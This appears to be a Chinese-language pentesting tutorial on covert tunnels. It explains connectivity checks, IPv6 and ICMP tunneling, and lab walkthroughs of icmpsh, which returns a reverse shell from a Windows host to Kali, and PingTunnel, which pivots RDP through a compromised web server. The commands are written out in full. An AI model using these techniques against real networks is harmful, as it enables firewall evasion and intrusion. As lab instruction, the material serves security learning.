# 隐藏通信隧道基础知识

隐藏通信隧道技术常用于在访问受限的网络环境中追踪数据流向和在非受信任的网络中实现安全的数据传输。

## 隐藏通信隧道基础知识

### 1：隐藏通信隧道概述

隧道就是一种绕过端口屏蔽的通信方式。防火墙两端的数据包通过防火墙所允许的数据包类型或者端口进行封装，然后穿过防火墙，与对方进行通信。当被封装的数据包到达目的地时，将数据包还原，并将还原后的数据包发送到相应的服务器上。

常用的隧道如下：

网络层：IPv6隧道、ICMP隧道、GRE隧道。

传输层：TCP隧道、UDP隧道、常规端口转发。

应用层：SSH隧道、HTTP隧道、HTTPS隧道、DNS隧道。

### 2：判断内网的连通性

判断内网的连通性是指判断机器能否连上外网等。

#### 2.1：ICMP协议
执行命令：

```
ping [IP或者域名]
```



#### 2.2：TCP协议
可以使用NC（netcat）来判断，执行命令：

```
nc -zv [IP] [端口]
```



#### 2.3：HTTP协议
可以利用curl命令，他不仅仅支持HTTP、HTTPS、FTP等众多协议，还支持POST、Cookie、认证、从指定偏移处下载部分文件、用户代理字符串、限速、文件大小、进度条特征等。

在使用curl时，需要执行 curl <IP：端口号>命令，如果远程主机开启了相应的端口会输出相应的端口信息，如果远程主机没有开通相应的端口，则没有任何提示。



#### 2.4：DNS协议
在进行DNS连通性检测时，常用的命令为nslookup、dig。

nslookup是windows自带的DNS探测命令。在没有指定vps-ip时，nslookup会从系统的TCP/IP属性中读取DNS服务器地址。

```
nslookup www.saulgoodman.cn
```



dig是Linux自带的DNS探测命令。在没有指定VPS-IP时，dig会到/etc/resolv.conf文件中读取系统配置的DNS服务器的地址。如果vps-ip为192.168.1.104，将解析百度的IP地址，说明DNS协议是连通的。

```
dig @192.168.1.1 www.baidu.com A
```


还有一种情况是流量不能外出，需要在内网中设置代理服务器，常用的判断方法如下：

```
1、查看网络连接，判断是否存在与其他机器的8080（不绝对）等端口连接（可以尝试运行“ping -n 1 -a ip” 命令）
2、查看内网中是否存在有主机名类似于 proxy 的机器
3、查看IE浏览器的直接代理
4、更新 pac 文件的路径（可能是本地路径，也可能是远程路径），将其下载下来并查看
5、执行命令如下，利用curl工具进行确认：
6、curl www.baidu.com //不通
7、curl -x proxy-ip：port www.baidu.com //通
```

### 3: 网络层隧道技术

在网络层中，两个常用的隧道协议是IPv6和ICMP。

#### 1：IPv6隧道

IPv6被称之为下一代互联网协议。它是由IETF设计用来代替现行IPv4协议的一种新的IP协议。

#### 1.1：IPv6隧道技术简介

IPv6隧道技术是指通过IPv4隧道传送IPv6数据报文的技术。为了在IPv4海洋中传递IPv6信息，可以将IPv4作为隧道载体，将IPv6报文整体封装在IPv4数据报文中，使IPv6报文能够穿过IPv4海洋，到达另一个IPv6小岛。

打个比方：快递公司收取包裹之后，发现自己在目的地没有站点，无法投送，则将此包裹转交给能到达目的地的快递公司（例如中国邮政）来投递。也就是说，将快递公司已封装好的包裹（类似于IPv6报文），用中国邮政的包装箱再封装一次（类似于封装成IPv4报文），以便这个包裹在中国邮政的系统（IPv4海洋）。

因为现阶段的边界设备、防火墙甚至入侵防御系统还无法识别IPv6的通信数据，而大多数的操作系统支持IPv6，所以需要进行人工配置。



即使设备支持IPv6，也可能无法正确分析封装了IPv6报文的IPv4数据包。

支持IPv6的隧道工具有 socat、6tunnel、nt6tunnel等。

#### 1.2：防御IPv6隧道
针对IPv6隧道攻击，最好的防御方法是：了解IPv6的具体漏洞，结合其他协议，通过防火墙和深度防御系统过滤IPv6通信，提高主机和应用程序的安全性。

#### 2：ICMP隧道
ICMP隧道是一个比较特殊的协议。在一般的通信协议里，如果两台设备要进行通信，肯定要开放端口，而在ICMP协议下就不需要。最常见的ICMP消息为Ping命令的回复，攻击者可以利用命令得到比回复更多的ICMP请求。在通常情况下，每个Ping命令都有相对应的回复与请求。

在一些条件下，如果攻击者使用各类隧道技术（HTTP，DNS，常规正反端口转发等）操作都失败了，常常会通过ping命令访问远程计算机，尝试进行ICMP隧道，将TCP/UDP数据封装到ICMP的ping数据包中，从而穿过防火墙（通常防火墙不会屏蔽ping数据包），实现不受限制的网络访问。

常见的ICMP隧道工具有：icmpsh、PingTunnel、icmptunnel、powershell icmp等。

#### 2.1：icmpsh
icmpsh工具使用简单，是一个跨平台工具，运行不需要管理员权限。

icmpsh下载地址：https://github.com/inquisb/icmpsh

相关文档：https://pentestlab.blog/2017/07/28/command-and-control-icmp/



使用icmpsh需要安装python的impacket类库，以便对于各种协议进行访问。

安装Python-impacket库：

```
apt-get install python-impacket
```

安装库如果出现这种情况：



那么更新一下APT库就好了：

```
sudo apt-get update
sudo apt-get upgrade
```

如果没有pip的话那么安装pip：

```
1、下载+解压+安装setuptools包：
2、root@kali:~#:wget https://pypi.python.org/packages/source/s/setuptools/setuptools-18.5.tar.gz
3、root@kali:~#:tar zxvf setuptools-18.5.tar.gz
4、root@kali:~#:cd setuptools-18.5
5、root@kali:~#:python setup.py build
6、root@kali:~#:python setup.py install
7
8、2.下载+解压+安装pip
9、root@kali:~#:wget https://pypi.python.org/packages/source/p/pip/pip-7.1.2.tar.gz
10、root@kali:~#:tar zxvf pip-7.1.2.tar.gz
11、root@kali:~#:cd pip-7.1.2
12、root@kali:~#:sudo python setup.py install
```

如果还是不行那么就使用这条命令安装：

```
pip2 install impacket
```



因为icmpsh工具要代替系统本身的ping命令的应答程序，所以需要输入如下命令来关闭本地系统的ICMP答应（如果要恢复系统答应，则设置为0），否则Shell的运行会不稳定.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

实验完成后开启系统ping的话将最后的1改为0即可



在这里我说一下，运行run.sh会出错，不知道为啥：



于是我使用了Python脚本运行：

```
python icmpsh_m.py 192.168.217.129【kali】 192.168.217.132【win7】
```



然后在Win7上执行命令：

```
icmpsh.exe -t 192.168.217.129
```


这个时候就成功反弹shell到kali：



#### 2.2：PingTunnel
PingTunnel也是一款常用的ICMP隧道工具，可以跨平台使用，为了避免隧道被滥用，可以为隧道设置密码。

工具下载地址：http://freshmeat.sourceforge.net/projects/ptunnel/

PS：复现这个工具使用至少需要三台机子，两台Linux，一台Windows

有这么一个场景：



如上图所示：我们通过渗透拿到了网络边界Web服务器（192.168.217.135），发现他内网有一台PC（192.168.217.132）并且开放了3389远程桌面，我们有密码（user：saul，pass：saul），但是通过跳板（192.168.217.135）的RDP连接不了内网PC的机子（做了限制），最后我们发现我们的跳板可以和内网PC能够Ping通，那么我们就可以通过ICMP协议隧道来进行远程桌面登陆。

一：首先需要建立ICMP隧道的两台机器（Hacker、跳板）上安装PingTunnel工具，然后配置编译。

进行配置编译

```
make && make install
```



如果遇到以上情况：‘缺少 pcap.h’，那么需要安装libpcap（数据包捕获函数库）。

```
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar zxvf libpcap-1.9.0.tar.gz
cd libpcap-1.9.0
./configure
```



如果中途出现 ‘yacc’包错误那么安装byacc包就可以了：

```
sudo apt-get install -y byacc
```
之后重新运行：

```
./configure
make
sudo make install
```





之后输入命令：

```
man pcap
```


出现以上就说明环境安装好了！最后再编译PingTunnel工具：

```
make && make install
```

二：在Web服务器跳板（192.168.217.135）中输入命令，运行PingTunnel工具：

```
sudo ptunnel -x saul[密码]
```



三：在Hacker攻击者（192.168.217.129）中输入以下命令：

```
ptunnel -p 192.168.217.135(跳板ip) -lp 1080 -da 192.168.217.132(内网PC) -dp 3389 -x saul
```

